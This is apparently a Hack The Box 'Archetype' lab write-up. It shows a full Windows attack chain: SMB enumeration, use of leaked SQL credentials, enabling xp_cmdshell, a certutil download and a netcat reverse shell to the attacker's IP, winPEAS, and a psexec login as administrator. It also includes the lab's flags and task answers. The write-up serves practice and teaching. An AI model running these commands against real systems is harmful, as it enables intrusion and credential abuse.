


# Tactics

## ip

target: 10.129.244.85

attker: 10.10.15.248

## Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.244.85
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 09:30 EST
Nmap scan report for 10.129.244.85
Host is up (0.32s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.50 seconds
```

- smb ports are open
- Microsoft SQL Server 2017 is running on port 1433

## smbclient

`smbclient -N -L \\\\10.129.244.85`:

```bash
└─$ smbclient -N -L \\\\10.129.244.85

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.244.85 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

access backups share and read contents `smbclient -N \\\\10.129.244.85\\backups`



=> `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

## impacket mssqlclient.py

`mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.244.85 -windows-auth`

```bash
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

try `xp_cmdshell`:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

`enable_xp_cmdshell`

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> enable_xp_cmdshell  
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

```

## create reverse shell

Download nc to target and create reverse shell:

```bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell certutil -urlcache -f http://10.10.15.248/nc.exe/nc64.exe C:\Users\sql_svc\Downloads\nc64.exe
output                                                
---------------------------------------------------   
****  Online  ****                                    

CertUtil: -URLCache command completed successfully.   

NULL                                                  

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell C:\Users\sql_svc\Downloads\nc64.exe -e cmd.exe 10.10.15.248 4242
```

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ nc -lvp 4242                                  
listening on [any] 4242 ...
10.129.244.85: inverse host lookup failed: No address associated with name
connect to [10.10.15.248] from (UNKNOWN) [10.129.244.85] 49677
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

## user flag

```bash
C:\Windows\system32>type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\sql_svc\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3

```

## winPEAS

download winPEAS to target: `certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe`

```bash
C:\Windows\system32> certutil.exe -urlcache -f http://10.10.15.248/winPEASx64.exe C:\Users\sql_svc\Downloads\winPEASx64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

run:

```bash
C:\Users\sql_svc\Downloads\winPEASx64.exe
```



`\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

## root flag

`psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85`:

```bash
┌──(kali㉿kali)-[~/Documents/tools/windows]
└─$ psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.244.85
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Requesting shares on 10.129.244.85.....
[*] Found writable share ADMIN$
[*] Uploading file IOeKKjuG.exe
[*] Opening SVCManager on 10.129.244.85.....
[*] Creating service KQlx on 10.129.244.85.....
[*] Starting service KQlx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

get root flag:

```bash
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```

## Task

Task 1: Which TCP port is hosting a database server?: `1433`

Task 2: What is the name of the non-Administrative share available over SMB?: `backups`

Task 3: What is the password identified in the file on the SMB share?: `M3g4c0rp123`

Task 4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?: `mssqlclient.py`

Task 5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?: `xp_cmdshell`

Task 6: What script can be used in order to search possible paths to escalate privileges on Windows hosts?: `winpeas`

Task 7: What file contains the administrator's password?: `ConsoleHost_history.txt`

Submit user flag: done

Submit root flag: done

## References

<https://kylemistele.medium.com/impacket-deep-dives-vol-1-command-execution-abb0144a351d#:~:text=One%20of%20the%20most%20commonly>

<https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/>

certutil: <https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil>

winpeas: <https://github.com/carlospolop/PEASS-ng/releases/tag/20230219>
